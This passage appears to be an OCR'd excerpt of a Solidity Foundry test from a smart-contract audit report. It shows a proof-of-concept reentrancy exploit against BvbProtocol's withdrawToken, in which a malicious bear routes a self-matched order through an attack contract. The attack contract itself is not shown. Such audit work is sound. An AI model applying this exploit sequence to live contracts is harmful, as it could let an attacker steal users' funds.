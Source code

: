 >         weth.approve(address(bvb), type(uint).max);
>         vm.prank(bear);
>         weth.approve(address(bvb), type(uint).max);
>         vm.prank(address(victim));
>         weth.approve(address(bvb), type(uint).max);
>         vm.prank(address(attack));
>         weth.approve(address(bvb), type(uint).max);
>     }
> 
>     function testExploitWithdrawReentrancy() public {
>         BvbProtocol.Order memory order = defaultOrder();
>         order.maker = bear;
>         order.isBull = false;
> 
>         bytes32 orderHash = bvb.hashOrder(order);
> 
>         // Sign the order
>         bytes memory signature = signOrderHash(bearPrivateKey, orderHash);
> 
>         // Taker (Bull) match with this order
>         vm.prank(address(victim));
>         bvb.matchOrder(order, signature);
> 
>         // Give a NFT to the Bear + approve
>         uint tokenId = 1234;
>         doodles.mint(bear, tokenId);
>         vm.prank(bear);
>         doodles.setApprovalForAll(address(bvb), true);
> 
>         // Bad bear create a new order with the same collection but earlier expiry, and match with self's attack contract
>         BvbProtocol.Order memory order2 = defaultOrder();
>         order2.maker = bear;
>         order2.isBull = false;
>         order2.expiry = order.expiry - 1 days;
>         bytes32 orderHash2 = bvb.hashOrder(order2);
>         bytes memory signature2 = signOrderHash(bearPrivateKey, orderHash2);
>         vm.prank(address(attack));
>         bvb.matchOrder(order2, signature2);
> 
>         vm.prank(bear);
>         bvb.settleContract(order2, tokenId);
>         assertEq(bvb.withdrawableCollectionTokenId(address(doodles), tokenId), address(attack), "Token kept for badBear");
>         vm.prank(address(attack));
>         doodles.setApprovalForAll(address(bvb), true);
> 
>         
>         // transfer the previous position to attack contract
>         vm.prank(bear);
>         bvb.transferPosition(orderHash, false, address(attack));
> 
>         attack.enableReceive(true);
>         attack.enableAttack(address(bvb), orderHash2, tokenId, order);
> 
>         victim.setLimited(true);
> 
>         vm.expectRevert();
>         vm.prank(address(attack));
>         bvb.withdrawToken(orderHash2, tokenId);
>     }
> }
> ```
> 